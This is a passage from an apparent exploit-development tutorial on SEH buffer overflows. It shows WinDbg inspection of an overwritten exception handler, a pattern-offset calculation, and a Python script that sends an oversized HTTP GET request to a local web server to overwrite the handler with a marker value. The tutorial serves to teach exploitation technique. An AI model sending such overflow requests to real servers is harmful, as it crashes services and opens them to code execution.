 Inspect the crashed thread *ExceptionList* in WinDbg to find the overwritten value:

```
0:012> !teb
TEB at 00258000
    ExceptionList:        023aff54
0:012> dt _EXCEPTION_REGISTRATION_RECORD 023aff54
ntdll!_EXCEPTION_REGISTRATION_RECORD
   +0x000 Next             : 0x32664431 _EXCEPTION_REGISTRATION_RECORD
   +0x004 Handler          : 0x44336644     _EXCEPTION_DISPOSITION  +44336644

Or

0:012> !exchain
023aff54: 44336644
Invalid exception stack at 32664431
```

Calculate the offset from buffer to the target *_except_handler* overwrite:

```
$ msf-pattern_offset -l 6000 -q 44336644
[*] Exact match at offset 2499
```




## 2. Confirm SEH Overflow

Confirm that you can actually control the *Handler* value - if true, it will be overwritten with `d34dc0d3`.

{% code title="sehof_confirm.py" %}
```python
#!/usr/bin/env python3

import socket
import struct

def little_endian(num):
    return struct.pack('<I', num)

host = '127.0.0.1'
port = 80
size = 6000

filler  = b'A' * 2499
handler = little_endian(0xd34dc0d3)
junk    = b'C' * (size - len(filler + handler))

buf = filler + handler + junk

request  = b'GET /' + buf + b'HTTP/1.1' + b'\r\n'
request += b'Host: ' + host.encode() + b'\r\n'
request += b'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:31.0) Gecko/20100101 Firefox/31.0 Iceweasel/31.8.0' + b'\r\n'
request += b'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' + b'\r\n'
request += b'Accept-Language: en-US,en;q=0.5' + b'\r\n'
request += b'Accept-Encoding: gzip, deflate' + b'\r\n'
request += b'Connection: keep-alive' + b'\r\n\r\n'

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host, port))
s.send(request)
s.close()
```
{% endcode %}